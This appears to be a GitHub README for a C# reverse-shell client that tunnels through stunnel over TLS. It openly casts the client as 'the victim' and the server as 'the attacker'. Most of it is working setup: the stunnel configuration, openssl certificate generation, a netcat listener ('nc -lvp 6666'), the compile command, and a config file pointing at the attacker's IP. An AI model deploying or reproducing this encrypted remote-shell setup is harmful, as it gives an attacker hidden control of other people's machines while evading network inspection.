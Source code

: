 # STunnell_RevShell
A Reverse shell through Stunnel.
## Architecture
- Client Net4.8 C#
- Server Stunnell4
- 
## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
The client SSL authentication must match the CN specified creating the server certificate (example: lguerra.local)

    sslStream.AuthenticateAsClient("lguerra.local");
	
	
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/lguerra.pem
	
	
Here we have stunnel listening for incoming connection on port 9999, then forwards the connection to port 6666 where we will have nc listening.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
The CN value must be used to authenticate the client as previously indicated.
Start stunnell
	
 service stunnel4 start
	
check if works:

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Compile the client:
	
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe Program.cs
	
	
	finally we can execute the client file ReverseShell2_SSL.exe
	the configuration file (config) must be present in the same directory of the exe, configurated according to the attacker machine:
		ip:<attacker machine IP>
		port:<listen stunnel port on the attacker machine>
		CN:<CN name as set on the stunnel certificate> 

	
	we should read the following on the CMD program shell
	
		Starting decoding, please wait...
		Certificate revocation list checked: False
		Remote cert was issued to CN=zinzloun, OU=IT Sec, O=Umbrella Corp., L=Chianti, S=Italy, C=IT and is valid from 20/07/2019 11:29:08 until 19/07/2022 11:29:08.
	
		

